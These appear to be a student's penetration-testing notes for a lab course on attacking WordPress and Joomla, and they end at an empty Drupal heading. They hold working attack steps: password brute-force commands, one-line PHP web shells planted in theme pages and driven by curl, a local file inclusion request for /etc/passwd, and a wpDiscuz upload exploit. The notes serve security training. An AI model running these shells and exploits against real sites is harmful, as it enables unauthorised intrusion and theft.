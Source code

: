 * A lot of the apps will need to be manually added to the `/etc/hosts` file. Modify this oneliner to do it quick:
```bash
$ IP=10.129.42.195
$ printf "%s\t%s\n\n" "$IP" "app.inlanefreight.local dev.inlanefreight.local blog.inlanefreight.local" | sudo tee -a /etc/hosts
```
Nmap Web discovery script
```bash
nmap -p 80,443,8000,8080,8180,8888,1000 --open -oA web_discovery -iL scope_list
```
* many orgs have large amounts of hosts running on ports 80 and 443 alone
	* unrealistic to individually navigate to them all
	* can use `EyeWitness` and `Aquatone` to feed in raw Nmap XML scan output to inspect and screenshot all hosts much quicker
		* can help narrow down
* scope list could look like this:
	* app.inlanefreight.local
	* 10.129.201.50
* Example Eyewitness oneliner:
```bash
eyewitness --web -x web_discovery.xml -d inlanefreight_eyewitness
```

# Wordpress
* php backend!
### Discovery
Typical `/robots.txt` file:
```
User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php
Disallow: /wp-content/uploads/wpforms/

Sitemap: https://inlanefreight.local/wp-sitemap.xml
```
* 5 types of users on standard WP install:
	* Administrator
	* Editor
	* Author
	* Contributor
	* Subscriber
* Another way to identify a wp site is to curl it and grep for `wordpress`
* can identify plugins by running `curl -s http://blog.inlanefreight.local/ | grep plugins`
* most plugins have a readme.txt file where you can find version and more info
* can find them at `http://blog.inlanefreight.local/wp-content/plugins` OR `http://blog.inlanefreight.local/?p=1/wp-content/pplugins`

### Enum on users
* A valid username and an invalid password results in the following message:
	* ***Error:** The password you entered for the username **USER** is incorrect*
* an invalid username returns that the user was not found

### WPScan
* `--enumerate` flag is used to enumerate various components of the WordPress application, such as plugins, themes, and users
	* all plugins can be enumerated using the arguments `--enumerate ap`
	* Can pass in in API tokens from WPVulnDB with `--api-token` flag
* default number of threads is `5`
	* can be changed with `-t` flag

### Login Bruteforce
* WPscan can do this
* two kinds of attacks 
	* `wp-login` will attempt to bruteforce the standard login page
	* `xmlrpc` uses wordpress API to make login attempts through `/.xmlrpc.php`
		* generally faster
* ex:
```bash
sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```

### Code Execution
* Done with wp themes
* click on `appearance` and select theme editor
* An inactive theme can be selected to avoid corrupting the primary theme
* Click on `Select` after selecting the theme, and we can edit an uncommon page such as `404.php` to add a web shell
* This code should let us execute commands via the GET parameter `0`
	* avoids too much modification of contents
```php
system($_GET[0]);
```
* Click on `Update File` at the bottom to save
* can use curl to gain access
```bash
curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id
```
* `wp_admin_shell_upload` in metasploit can be used to upload a shell and execute it automatically
	* the `php/meterpreter/reverse_tcp` payload should work fine
* Many Metasploit modules (and other tools) attempt to clean up after themselves, but some fail
	* make sure to document and clean up
* most vulns in wordpress are with the plugins (89%)
* Note: We can use the [waybackurls](https://github.com/tomnomnom/waybackurls) tool to look for older versions of a target site using the Wayback Machine. Sometimes we may find a previous version of a WordPress site using a plugin that has a known vulnerability. If the plugin is no longer in use but the developers did not remove it properly, we may still be able to access the directory it is stored in and exploit a flaw.

**Mail-masta plugin***
* Since 2016 it has suffered an unauthenticated SQL injection and a Local File Inclusion
* Vulnerable code:
```php
<?php 

include($_GET['pl']);
global $wpdb;

$camp_id=$_POST['camp_id'];
$masta_reports = $wpdb->prefix . "masta_reports";
$count=$wpdb->get_results("SELECT count(*) co from  $masta_reports where camp_id=$camp_id and status=1");

echo $count[0]->co;

?>
```
* the `pl` parameter allows us to include a file without any type of input validation or sanitization
	* Using this, we can include arbitrary files on the webserver
* Exploit:
```bash
curl -s http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```

**wpDiscuz plugin**
* The file mime type functions could be bypassed, allowing an unauthenticated attacker to upload a malicious PHP file and gain remote code execution
* Exploit script:
	* can be downloaded from exploitdb
```bash
python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1
```
* may fail, but can still use curl to execute commands after the script was run:
```bash
curl -s http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=id
```
* Make sure to cleanup the `.php` file left behind

# Joomla
* another Content Management System like wordpress, just not as popular
* can fingerprint by looking at the page source: `curl -s http://dev.inlanefreight.local/ | grep Joomla`
* ex robots.txt file
```bash
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
# eg the Disallow rule for the /administrator/ folder MUST
# be changed to read
# Disallow: /joomla/administrator/
#
# For more information about the robots.txt standard, see:
# https://www.robotstxt.org/orig.html

User-agent: *
Disallow: /administrator/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```
* can fingerprint version if the readme.txt is present
* can use `droopscan` for limited enumeration
	* can git clone it or install via pip
* `joomscan` is now out of date and needs python 2.7 to run, but can still be helpful
* administrator login portal located at `http://dev.inlanefreight.local/administrator/index.php`
* default admin account is `admin`
	* password set at install time
* script to brute force the login:
```bash
sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
```
### Attacking Joomla
* Once logged in, can get rce from adding a php script to a template
	* click on `templates` under `configuration`
		* htb lied; it's under `extensions`
	* click on a template name, go to the `customise` page
		* ex: `protostar`
	* try using the `error.php` page
	* One liner for ce:
```php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
```
* save and close
* confirm with curl:
```bash
curl -s http://dev.inlanefreight.local/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id
```

# Drupal
* another CMS
* 